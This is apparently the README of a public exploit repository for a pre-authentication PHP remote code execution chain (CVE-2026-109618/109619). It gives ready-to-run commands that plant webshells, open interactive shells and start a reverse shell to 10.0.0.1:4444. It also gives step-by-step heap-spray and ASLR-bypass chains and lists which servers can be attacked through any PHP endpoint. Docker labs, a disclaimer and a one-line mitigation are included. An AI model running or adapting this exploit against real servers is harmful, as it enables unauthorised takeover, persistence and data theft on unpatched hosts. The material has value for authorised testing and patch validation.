




# php2shell-exploit

Universal PHP RCE exploit for **CVE-2026-109618** / **CVE-2026-109619**.

Pre-auth, cookie-less, pure-HTTP remote code execution via `session.upload_progress` use-after-free. Heap-based ASLR bypass + function pointer overwrite = shell.

**Created by: Joas A Santos ([@c0d3cr4zy](https://github.com/JoasASantos))**

<p align="center">
  
  <br>
  <em>Full exploit chain: ASLR bypass → webshell plant → RCE (id, uname -a, /etc/passwd)</em>
</p>

## Disclaimer

**Authorized security testing, research, and education ONLY.** Unauthorized access is illegal. Authors not responsible for misuse.

> **Implementation Note:** This is an independent implementation based on public CVE details, PHP source code analysis, and Wiz Research's published technical writeup at [php2shell.com](https://www.php2shell.com/). It is **not** a copy of Wiz's internal exploit — their exact tooling is proprietary and unpublished. v1 uses `pDestructor=zif_system` (functional but crashes the worker). v2 implements the `auto_prepend_file` overwrite technique described by Wiz, achieving crash-free post-setup execution. Both versions demonstrate real CVE-2026-109618/CVE-2026-109619 exploitation via heap UAF — this is **not** session poisoning or LFI (the 2018 Orange Tsai technique that many other PoCs incorrectly replicate).

## Affected Versions

| Branch | Vulnerable | Patched |
|--------|-----------|---------|
| PHP 8.5 | < 8.5.12 | 8.5.12+ |
| PHP 8.4 | < 8.4.27 | 8.4.27+ |
| PHP 8.3 | < 8.3.36 | 8.3.36+ |
| PHP 8.2 | < 8.2.35 | 8.2.35+ |
| PHP 8.1/8.0/7.x | All | EOL |

## Two Exploit Versions

| | v1 | v2 htaccess | v2 gadget | v2 zero | v2 grooming |
|---|---|---|---|---|---|
| **Technique** | pDestructor=zif_system | system() + .htaccess | lxb function BSS write | session file + BSS | Keep-Alive pipeline |
| **Worker crash** | Every command | 1 setup crash | 1 crash + 0 | **0 crashes** | **0 crashes** |
| **Keep-Alive** | No | No | No | No | **Yes (single worker)** |
| **Stability** | Unstable | Stable | Stable | Stable | **Most stable** |
| **Files on disk** | webshell | webshell + .htaccess | webshell only | webshell + .htaccess | webshell + .htaccess |
| **AllowOverride** | N/A | Required | Not needed | Optional | Optional |
| **Wiz similarity** | Partial | Close | Closer | Full | **100% replication** |

## Features

- Pre-auth RCE — no credentials, no cookies, pure HTTP
- ASLR bypass via ~800KB heap OOB read
- **v1:** In-band output via two-stage webshell (HTTP GET, instant response)
- **v2:** Crash-free execution via auto_prepend_file (Wiz technique)
- File-based output fallback (Docker labs, read-only webroot)
- Interactive shell + reverse shell modes
- Auto-detect arch (x86_64/aarch64), OS, SAPI, MPM
- Profile system with auto-calibration
- Worker pinning for multi-worker Apache pools

## Quick Start

```bash
# 1. Start lab
cd docker && docker compose up -d && cd ..

# 2. Extract offsets
python3 -c "
from lib.offsets import extract_from_container, save_offsets_env
z, d = extract_from_container('php2shell-target')
save_offsets_env('out/offsets.env', z, d)
print(f'zif_system=0x{z:x}  zval_ptr_dtor=0x{d:x}')
"

# 3. Recon only
python3 exploit.py -t http://127.0.0.1:18110/index.php --recon-only
```

### v1 — pDestructor=zif_system (per-command crash)

```bash
# Single command
python3 exploit.py -t http://127.0.0.1:18110/index.php --cmd id --mode webshell

# Interactive shell
python3 exploit.py -t http://127.0.0.1:18110/index.php -i

# Reverse shell
python3 exploit.py -t http://127.0.0.1:18110/index.php --reverse 10.0.0.1:4444
```

<p align="center">
  
  <br>
  <em>v1: Full exploit chain — recon, ASLR bypass, webshell plant, interactive shell</em>
</p>

### v2 — PG(auto_prepend_file) (crash-free after setup)

<p align="center">
  
  <br>
  <em>v2: Setup (1 crash) → unlimited crash-free commands via normal HTTP GET</em>
</p>

```bash
# htaccess technique (default) — 1 crash, simple
python3 exploit_v2.py -t http://127.0.0.1:18110/index.php --cmd id

# gadget technique — BSS write, no .htaccess needed
python3 exploit_v2.py -t http://127.0.0.1:18110/index.php --cmd id --technique gadget

# ZERO CRASH — session file + BSS write, no crashes
python3 exploit_v2.py -t http://127.0.0.1:18110/index.php --cmd id --technique zero

# HEAP GROOMING — Keep-Alive pipeline, 100% Wiz technique
python3 exploit_v2.py -t http://127.0.0.1:18110/index.php --cmd id --technique grooming

# Interactive shell (crash-free after setup)
python3 exploit_v2.py -t http://127.0.0.1:18110/index.php -i

# Show all technique details
python3 exploit_v2.py --info

# Cleanup planted files
python3 exploit_v2.py -t http://127.0.0.1:18110/index.php --cleanup
```

## Exploit Chains

### v1 Chain (pDestructor)

```
A1  OOM → dangling PS(id) + PS(mod_data)
B1  Stale-ID OOB read → ~800KB heap leak → libphp base + chunk base
A2  Cheap OOM → dangling PS(http_session_vars)
B2  Fake-ref spray → pDestructor=zif_system → system(cmd) → worker crash
```

**v1 in-band execution (two-stage):**
1. B2 plants PHP webshell on webroot (worker crashes, one-time cost)
2. Subsequent commands via HTTP GET — output in response body
3. Auto-cleanup on exit

### v2 Chain — htaccess (default)

```
A1→B1  ASLR bypass (same as v1)
Setup:   system("plant webshell; write .htaccess") → ONE worker crash
Execute: Normal HTTP GET ?c=cmd → auto_prepend_file includes webshell
         → output in response body, NO crash, worker survives
```

### v2 Chain — gadget (experimental)

```
A1→B1  ASLR bypass → system("plant webshell") → worker crash (ONE crash total)
       ↓ Apache forks new worker
A1→B1  Fresh ASLR bypass on new worker
A2→B2  pDestructor = lxb_css_selector_list_remove (write-what-where gadget)
       → overwrites PG(auto_prepend_file) in BSS → worker SURVIVES
Execute: Normal HTTP GET ?c=cmd → auto_prepend_file active from BSS
         → no .htaccess on disk, no AllowOverride needed
```

### v2 Chain — zero (full Wiz replication)

```
Slow upload: PHP_SESSION_UPLOAD_PROGRESS writes PHP code to /tmp/sess_<id>
             session file persists while upload is in progress → NO crash
A1→B1  ASLR bypass on separate worker                         → NO crash
A2→B2  pDestructor = lxb_css_selector_list_remove (gadget)
       → overwrites PG(auto_prepend_file) = /tmp/sess_<id>    → NO crash
GET    auto_prepend_file includes session file                 → NO crash
       → PHP code plants permanent webshell + .htaccess
Upload ends: session file cleaned up, .htaccess persists
```

### v2 Chain — grooming (100% Wiz technique)

```
                         "GADGETS: none; runtime-resolved PHP global-pointer override"
                         "heap grooming over Keep-Alive connection"

Slow upload: PHP_SESSION_UPLOAD_PROGRESS writes PHP code to /tmp/sess_<id>
             session file persists while upload is in progress → NO crash

Keep-Alive connection (SAME worker for entire chain):
  A1     OOM → dangling PS(id) + PS(mod_data)                    → NO crash
  B1     Stale-ID OOB read → libphp base (ASLR bypass)           → NO crash
  A2     Cheap OOM → dangling PS(http_session_vars)               → NO crash
  B2     Heap spray: fake HashTable in freed slot
         pDestructor = lxb_css_selector_list_remove (function reuse, NOT gadget)
         Worker shutdown: pDestructor fires → *(BSS + 0xa0) = path
         → overwrites PG(auto_prepend_file)                       → NO crash
  GET    auto_prepend_file includes session file
         → PHP code plants permanent webshell + .htaccess         → NO crash

Upload ends: session file cleaned up, .htaccess persists
```

**v2 execution (crash-free after setup):**
1. htaccess: single crash plants webshell + .htaccess
2. gadget: single crash plants webshell, function reuse writes BSS (no crash)
3. zero: slow upload + BSS write = zero crashes total
4. grooming: Keep-Alive pipeline, all ops on same worker = zero crashes, 100% Wiz
5. Every subsequent HTTP request auto-includes the webshell
6. Command output in HTTP response body — no crash, no instability

## Execution Modes

| Mode | Flag | How |
|------|------|-----|
| Single cmd | `--cmd "id"` | File-based via /out/ |
| Webshell | `--mode webshell --cmd "id"` | Plant + execute + cleanup |
| Interactive | `-i` | Webshell (auto file fallback) |
| File I/O | `-i --mode file` | Each cmd = fresh exploit chain |
| Reverse shell | `--reverse IP:PORT` | Bash/python/perl/nc/php |

## Labs

### Minimal PHP (default)

```bash
cd docker && docker compose up -d
# Port 18110 — bare PHP 8.4.26, single-worker prefork
python3 exploit.py -t http://127.0.0.1:18110/index.php -i
```

### WordPress

```bash
cd labs/wordpress && docker compose up -d
# Port 18120 — WordPress 7.1.3 + MariaDB 11
python3 exploit.py -t http://127.0.0.1:18120/health.php -i
```

<p align="center">
  
  <br>
  <em>WordPress lab: exploit via health.php, pivot to WordPress admin panel</em>
</p>

### phpMyAdmin

```bash
cd labs/phpmyadmin && docker compose up -d
# Port 18130 — phpMyAdmin 5.2.2 + MariaDB 11
python3 exploit.py -t http://127.0.0.1:18130/favicon.ico -i
```

> **Note:** The exploit targets PHP's `session.upload_progress` handler, not the application. Any PHP endpoint on a vulnerable server works as entry point — no authentication or application-specific interaction required.

## Architecture

```
exploit.py           v1 pipeline — pDestructor=zif_system
exploit_v2.py        v2 pipeline — PG(auto_prepend_file) technique
recon.py             Target fingerprinting
lib/
├── transport.py     HTTP transport (chunked, proxy)
├── payloads.py      v1 multipart builders (A1, B1, fake HashTable)
├── payloads_v2.py   v2 payload builders (auto_prepend_file overwrite + gadget)
├── slow_upload.py   Session file persistence via slow multipart upload
├── leak.py          OOB leak parser + ASLR bypass
├── oom.py           A2 cheap-OOM
├── forge.py         B2 fake-reference spray
├── calibrate.py     Auto-calibration
├── offset_db.py     Profile database
├── offsets.py       ELF symbol extraction
└── worker_pin.py    Worker pinning
profiles/            JSON profiles for known PHP builds
docker/              Minimal PHP lab (port 18110)
labs/
├── wordpress/       WordPress + MariaDB lab (port 18120)
└── phpmyadmin/      phpMyAdmin + MariaDB lab (port 18130)
```

## Adding Profiles

```bash
# From container
python3 -c "
from lib.offsets import extract_from_container
z, d = extract_from_container('container-name')
print(f'zif_system: 0x{z:x}  zval_ptr_dtor: 0x{d:x}')
"

# From libphp.so
python3 -c "
from lib.offsets import extract_from_elf
z, d = extract_from_elf('/path/to/libphp.so')
"
```

## Attack Surface & Requirements

### What makes a target exploitable

| Requirement | Detail |
|-------------|--------|
| **PHP version** | 5.4.0 through 8.5.11 (any branch before fix) |
| **SAPI** | Apache mod_php with prefork MPM (one process per worker) |
| **session.upload_progress.enabled** | Must be `1` (PHP default — ON) |
| **Any PHP endpoint** | No auth needed, no cookies, no application interaction |
| **HTTP direct to Apache** | Chunked Transfer-Encoding must work (no WAF stripping multipart) |

### What the attacker needs

| Requirement | Detail |
|-------------|--------|
| **Offsets** | `zif_system` and `zval_ptr_dtor` from target's `libphp.so` — depends on exact PHP version + arch (aarch64/x86_64) + distro (Alpine/Debian/Ubuntu). Extract via `lib/offsets.py` from container or ELF binary |
| **Heap calibration** | `ht_offset` (where fake HashTable lands in chunk), OOM spray params (`a1_big`, `a2_parts`, `a2_fillers`), forge spray params (`forge_vl`, `forge_n1`, `forge_n2`), OOB read params (`leak_spec`, `fake_len`). Wrong calibration = spray misses target slot |
| **Architecture match** | Exploit payloads are arch-specific — struct layouts, pointer sizes, Bucket stride differ between aarch64 and x86_64 |
| **Network access** | Direct HTTP to Apache, Keep-Alive for worker pinning, no aggressive WAF blocking large multipart bodies |

### v2-specific requirements

| Requirement | Detail |
|-------------|--------|
| **AllowOverride** | Apache must allow `.htaccess` (default: enabled). Fallback: php.ini modification |
| **Writable webroot** | `.htaccess` must be writable by www-data (default Docker/Debian setups: yes) |
| **Writable /tmp/** | Webshell planted at `/tmp/.p2s_v2.php` (almost always writable) |

### Why offsets alone aren't enough

Offsets tell the exploit WHERE functions are in memory. Calibration tells the exploit HOW to place controlled data in the right heap slot. Both must be correct:

- Wrong offsets = crash without control (jump to garbage address)
- Wrong calibration = ASLR bypass fails or fake HashTable lands in wrong slot
- Both correct = reliable exploit chain

Profiles in `profiles/` bundle offsets + calibration for tested PHP builds. New targets need `lib/offsets.py` (extraction) + `lib/calibrate.py` (auto-calibration).

## Mitigation

```ini
session.upload_progress.enabled = 0
```

Or upgrade to PHP 8.4.27+ / 8.3.36+ / 8.2.35+ / 8.5.12+.

## Roadmap

- **DONE**: A1 OOM via chunked multipart — `longjmp()` corruption (CVE-2026-109618)
- **DONE**: B1 OOB read — ASLR bypass via stale session state (CVE-2026-109619)
- **DONE**: A2 cheap OOM — dangling `PS(http_session_vars)` reference
- **DONE**: B2 heap spray — ZendMM page reassignment (bin-32 → bin-448), fake references every 32 bytes
- **DONE**: `pDestructor = zif_system` — fake HashTable with execute_data + zend_string command payload
- **DONE**: Keep-Alive heap grooming pipeline — all stages (A1→B1→A2→B2) on same worker
- **DONE**: KeepAliveSocket transport for persistent worker pinning
- **DONE**: Webshell + `.htaccess` persistence — files written to disk before worker crash
- **DONE**: Zero-crash file plant via `PHP_SESSION_UPLOAD_PROGRESS` session file + slow upload
- **DONE**: `lxb_css_selector_list_remove` BSS write gadget (alternative technique, libphp + `0x2a1a6c`)
- **DONE**: Auto-fallback chain: grooming → zero → gadget → htaccess
- **DONE**: Profile-based offset database with auto-detection
- **DONE**: Worker pinning via connection saturation (multi-worker Apache)
- **FUTURE**: x86_64 profile support
- **FUTURE**: PHP-FPM support (different worker model, heap layout)

## References

- [CVE-2026-109618 — RCE via OOM corruption (GHSA-w8hw-w9fx-j79w)](https://github.com/php/php-src/security/advisories/GHSA-w8hw-w9fx-j79w)
- [CVE-2026-109619 — RCE via stale global state (GHSA-6wmf-4rv5-p3rp)](https://github.com/php/php-src/security/advisories/GHSA-6wmf-4rv5-p3rp)
- [PHP2Shell — Official Wiz Research Site](https://www.php2shell.com/)
- [WizResearch — php2shell Blog Post](https://www.wiz.io/blog/php2shell)
- [9bie/php2shell-bypass-aslr-exp](https://github.com/9bie/php2shell-bypass-aslr-exp)
- [devploit/php2shell](https://github.com/devploit/php2shell)
- [NCSC-NL/php2shell Advisory](https://github.com/NCSC-NL/php2shell)

## License

MIT — For authorized security testing only.
